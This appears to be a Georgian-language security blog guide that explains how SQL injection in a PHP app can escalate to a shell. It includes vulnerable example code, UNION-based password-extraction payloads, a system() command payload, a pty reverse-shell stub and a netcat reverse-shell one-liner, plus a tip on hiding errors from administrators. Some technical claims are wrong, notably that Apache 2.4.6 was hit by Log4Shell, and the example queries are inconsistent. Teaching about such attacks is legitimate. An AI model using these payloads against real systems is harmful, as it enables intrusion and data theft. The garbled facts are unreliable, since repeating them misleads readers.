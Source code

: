```yaml
---
title: "`HTTP`-დან `Shell`-ში"
date: 2024-11-07 11:07:00 +0400
categories: [CyberSecurity, Guides]
tags: [Explanation]
---
```


## პროტოკოლის ახსნა

`HTTP(HyperText Transfer Protocol` არის `Layer 7` პროტოკოლი, ანუ `Application Layer` პროტოკოლი. ეს ნიშნავს, იმას, რომ ამ პროტოკოლს სჭირდება სხვა პროტოკოლები იმისთვის, რომ გამართულად იმუშაოს. ესენია: `IP` და `TCP`.

#### როგორ იზღუდება `HTTP`

`HTTP` არ არის ისეთი პროტოკოლი, საიდანაც რეალურ დროში კომუნიკაცია შეიძლება. ანუ, `HTTP`-ს გამოყენების დროს, კავშირი მაშინ წყდება, როდესაც გასაგზავნი ინფორმაცია იწურება. ეს შეიძლება იყოს `.html`, `.css`, `.js` ფაილები, ფოტოები, ვიდეოები და ა.შ.

სოკეტებისგან განსხვავებით, აქ არ გვაქვს ორმხრივი კომუნიკაციის შესაძლებლობა. სწორედ ამის გამოა შეუძლებელი `interactive shell`-ის მიღება `HTTP`-დან. მაგრამ, რა ხდება მაშინ, როდესაც `HTTP`-დან ვიღებთ `Shell`-ზე წვდომას?

## ვებ სერვერები

ვებ სერვერების მოწყვლადობა ორი რამ შეიძლება იყოს:

1. აპლიკაცია(ReactJS, NextJS, PHP Laravel)
2. თვითონ სერვერი(Nginx, Apache)

არსებობს უამრავი CVE, რომლის PoC(Proof of Concept) კოდის მორგებაც შესაძლებელია ვებ სერვერზე, რის შედეგადაც `Shell`-ის მიღება შეიძლება.

მაგალითად, `Apache 2.4.6` ვერსიაზე შესაძლებელი იყო ე.წ. `Log4Shell` ექსპლოიტის გამოყენება. ამ პრობლემას `Java`-ს `Logging` ბიბლიოთეკა, `Log4J` იწვევდა. რა თქმა უნდა, ეს პრობლემა მოგვარდა, მაგრამ უამრავი ვებ სერვერი დღემდე მოწყვლადია და შესაძლოა ემსხვერპლონ კიდეც ამ პრობლემას.

მოკლედ, რაც შეეხება თვითონ აპლიკაციას, შესაძლოა დეველოპერს დაავიწყდა მომხმარებლის მიერ შეყვანილი ინფორმაციის ვალიდაცია და ის პირდაპირ `SQL Query`-ში მიაქვს. ამან შესაძლოა `SQLi(SQL Injection)` გამოიწვიოს. მაგალითად:

```php
$search_data = $_POST['username'];

$sql_query = 'SELECT phone FROM Users WHERE Users.username = "' . $search_data . '"';
```

აქ საკმაოდ დიდია იმის რისკი, რომ `SQLi` მოხდება. `$sql_query`-ს ანალიზით, დადგინდება, რომ თუ მომხმარებელი შეიყვანს `Bob`-ს, ასეთი გამოვა `SQL Query`:

```sql
SELECT phone FROM Users WHERE Users.username = "Bob"
```

მაგრამ, რა მოხდება მაშინ თუ მომხმარებელი დაწერს ამას:

```sql
" OR 1=1--
```

მოხდება კატასტროფა:

```sql
SELECT phone, email 
FROM Users WHERE Users.username = "" OR 1=1--"
```

ეს უკვე `SQL` ინექციაა. რა თქმა უნდა, შესაძლებელია კრიტიკული ინფორმაციის მოპარვა:

```sql
" ORDER BY X
```

აქ `X` იქნება რიცხვი. ამით ჰაკერი დაადგენს თუ რამდენი `column` ბრუნდება მონაცემთა ბაზიდან. მაგალითად, აქ ორი `column` ბრუნდება, და ორივე `string` ტიპის მონაცემია. აქედან გამომდინარე, ჰაკერს შეუძლია ორი რამ წამოიღოს ბაზიდან ერთდროულად:

```sql
" UNION SELECT password, NULL FROM Users--
```

ეს არის ე.წ. `UNION` ტიპის შეტევა. ასეთი გამოდის საბოლოო სკრიპტი:

```sql
SELECT phone, email 
FROM Users 
WHERE Users.username = "" 
UNION SELECT password, NULL 
FROM Users--"
```

ეს უკვე აპლიკაციის ბრალია და არა თვითონ ვებ სერვერის. ასევე, რა თქმა უნდა, ვებ სერვერს წინ `WAF` უნდა იყოს დაყენებული, რათა ასეთი ტიპის შეტევები დაბლოკოს.

## SQL shell?

რა თქმა უნდა, `SQL` ენიდან შესაძლებელია `Shell`-ში გადასვლა. მაგალითად, განვიხილოთ იგივე პრობლემა, მაგრამ ამჯერად `SQL` სერვერს აქვს ერთი დიდი პრობლემა: დეველოპერს დაავიწყდა იმ ფუნქციების გამორთვა, რომლებიც `Shell`-ში ბრძანებების გაშვების საშუალებას გვაძლევს.

შესაძლოა `payload` იყოს ასეთი:

```sql
" UNION SELECT system('uname -r'), NULL--
```

ეს წამოიღებს კერნელის ვერსიას. კერნელის ვერსიიდან გამომდინარე უკვე შესაძლებელი იქნება პრივილეგიის ესკალაციისათვის შესაბამისი ზომების მიღება. ანუ, თუ `SQL` სერვერმა მაინც სტანდარტული მომხმარებელი აჩუქა ჰაკერს, ჰაკერი შეძლებს `root` მომხმარებელზე წვდომის მოპოვებას(ეს ძალიან ზოგადი მაგალითია).

როგორ მოთავსდება `payload` ზემოთ მოყვანილ მაგალითში?

```sql
SELECT phone, email 
FROM Users 
WHERE Users.username =  "" 
UNION SELECT system('uname -r'), NULL FROM Users--"
```

ამის შემდეგ, ჰაკერს `output` ფრონტზე მიუვა. თუ ფრონტზე არ გამოჩნდა, მაშინ ის პროქსიდან დაინახავს პასუხს, როგორიცაა `Burpsuite`.

## ისე კარგად მაინც ვერ ვართ...

ჰაკერმა თავი ისე უნდა იგრძნოს, როგორც თევზი გრძნობს თავს წყალში. მაგრამ ეს შეუძლებელი იქნება თუ `Shell` არ იქნება `Interactive` და არ იქნება კომფორტი.

ამის გამო, ჰაკერს სჭირდება ახალი მეთოდი, რათა `Shell` მიიღოს. ეს დიდ პრობლემას არ წარმოადგენს. შესაძლებელია მან პითონის სკრიპტი დაწეროს, რომელიც `/bin/bash` პროცესს შექმნის და მის `STDIN`, `STDOUT` და `STDERR`-ს სოკეტს მიაბამს:

```python
import pty
import socket

# კოდი

pty.spawn("/bin/bash")

# კიდევ უფრო მეტი კოდი
# კიდევ უფრო მეტი კოდი
```

რაღაც მსგავსის აწყობა შეიძლება. შემდეგ, ამ ფაილს `wget` ან `curl` ბრძანებით ატვირთავს სერვერზე და გაუშვებს მას.

ლინუქსის `process management`-დან გამომდინარე, `explt.py` პროცესიდან დაიფორკება(Fork) ახალი პროცესი, რომელიც იქნება `/bin/bash`. მისი `STDIN` და `STDOUT` მიებმება სოკეტს, ხოლო ისიც შესაძლებელია, რომ `STDERR` წავიდეს `/dev/null`-ში, რათა პრობლემები სერვერის ადმინისტრატორისთვის კიდევ უფრო შეუმჩნეველი გახდეს.

#### განახლების მიღება

სოკეტიდან წამოსულ `Shell`-ს როდესაც დაიჭერს ჰაკერი, მას ექნება ყველაფრის შესაძლებლობა. პითონი რომც არ გამოიყენოს, ძალიან მარტივადაა შესაძლებელი ამის გაკეთება:

```bash
nc <IP> <PORT> -e /bin/bash&
```

ასე მიიღებს ჰაკერი ახალ "ნიჟარას" `SQL`-დან.

## მორალი

იმის თქმა, რომ მხოლოდ `Nginx` ან `Apache` იწვევს პრობლემას სიცრუეა. კარგად უნდა დააკვირდეს დეველოპერი კოდს და ყველა შესაძლო გადაცდომა უნდა აღმოაჩინოს. ზემოთ მოყვანილ მაგალითში, მომხმარებლისგან მიღებული ინფორმაცია პირდაპირ ჯდება `SQL query`-ში და ეს იწვევს მთავარ პრობლემას.

რა თქმა უნდა, უამრავი სხვა მეთოდი არსებობს, `HTTP`-დან `Shell`-ის მისაღებად, მაგრამ `SQLi` ერთ-ერთი საუკეთესო თემაა, ამ ყველაფრის მარტივად ასახსნელად.
